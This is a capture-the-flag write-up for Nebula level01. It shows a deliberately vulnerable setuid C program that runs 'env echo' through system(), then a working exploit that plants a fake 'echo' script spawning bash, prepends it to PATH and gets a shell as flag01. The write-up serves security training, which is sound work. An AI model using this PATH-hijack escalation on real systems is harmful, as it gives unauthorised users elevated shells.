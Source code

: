# For level01 in nebula

>There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
>  
>To do this level, log in as the level01 account with the password level01. Files for this level can be found in /home/flag01.

### The program
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();	//Euid is flag01

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);		//set ruid, suid, euid to flag01

  system("/usr/bin/env echo and now what?");	//run echo 'and now what?'
}
```

Running it gives us
```
level01@nebula:~$ cd /home/flag01
level01@nebula:/home/flag01$ ls
flag01
level01@nebula:/home/flag01$ ./flag01 
and now what?
```

Our goal, similar in `level00`, is to become `flag01` and execute `getflag`. Our program has already set our real, effective and saved UID and GID to `flag01`. How do we set our real UID to `flag01`? 

>The real and effective UID and GID of the child process are equal to the real and effective UID and GID of the parent process. [Source](https://stackoverflow.com/questions/17785983/ruid-euid-after-exec)

Since the real UID of this C program is already `flag01`, the real UID of its child processes will also be `flag01`. So, why don't we spawn a shell using this program?



### Crafting the exploit

Let's create a simple bash script that calls `bash`. All we have to do is just to redirect the C program to it.
```
#!/bin/bash

bash;
```

This is where a new concept comes in: Environment variables. 

>PATH is an environment variable on Unix-like operating systems, DOS, OS/2, and Microsoft Windows, specifying a set of directories where executable programs are located. In general, each executing process or user session has its own PATH setting.

```
level01@nebula:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
level01@nebula:~$
```
When we call `echo` for instance, Linux looks for the program in `/user/local/sbin`. If it isn't there, it looks at `/user/local/bin`, and so on. 

We shall trick Linux into thinking our program *is* the `echo` program.

1. We name the script above `echo` and place it in `/home/local01` where we have write permissions. Make sure to `chmod +x echo` so we can execute it!

2. We add `/home/local01` into the $PATH environment variable with this instruction `export PATH=/home/level01:$PATH` so Linux will look for `echo` there.

Let's verify the `$PATH` before we run the C program.
```
level01@nebula:~$ echo $PATH
/home/level01:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```
After running the C program, we got a bash shell where we are now `flag01` and can execute `getflag`.
```
level01@nebula:/home/flag01$ ./flag01 
flag01@nebula:/home/flag01$ getflag
You have successfully executed getflag on a target account
flag01@nebula:/home/flag01$ whoami
flag01
```

END
